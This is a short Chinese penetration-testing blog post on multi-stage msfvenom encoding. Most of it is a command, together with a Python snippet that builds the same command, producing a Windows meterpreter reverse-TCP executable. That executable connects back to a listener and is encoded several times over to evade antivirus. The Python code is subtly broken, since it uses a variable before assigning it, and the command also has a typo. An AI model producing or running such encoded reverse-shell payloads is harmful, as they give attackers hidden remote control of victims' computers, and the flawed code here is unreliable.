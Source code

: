```yaml
---
title: "msfvenom 多重编码"
date: 2018-06-20T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["metasploit"]
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



除第一次需要指定 payload 外, 其他都用 `-p -` 代替, 多重编码需要指定 `--platform` 和 `-a` 并用 `-f raw` 输出, 最后一次编码更改为 `-f exe`

<!--more-->

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f raw | msfvenom -p - -e x86/jmp_call_additive -i 2 -a x86 --platform windows -f raw | msfvenom -p - e x86/alpha_upper -i 1 -a x86 --platform windows -f exe > msf.exe
```

Python 实现

```
args = 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 '
encoders = {'x86/shikata_ga_nai': '5', 'x86/jmp_call_additive': '2', 'x86/alpha_upper': '1'}

for c in list(encoders.keys())[:-1]:
	encs += '-e ' + c + ' -i ' + encoders.get(c) + ' -a x86 --platform windows -f raw | msfvenom -p - '

encs += '-e ' + list(encoders.keys())[-1] + ' -i ' + encoders.get(list(encoders.keys())[-1]) + ' -a x86  --platform windows '
args += encs + '-f exe > msf.exe'
```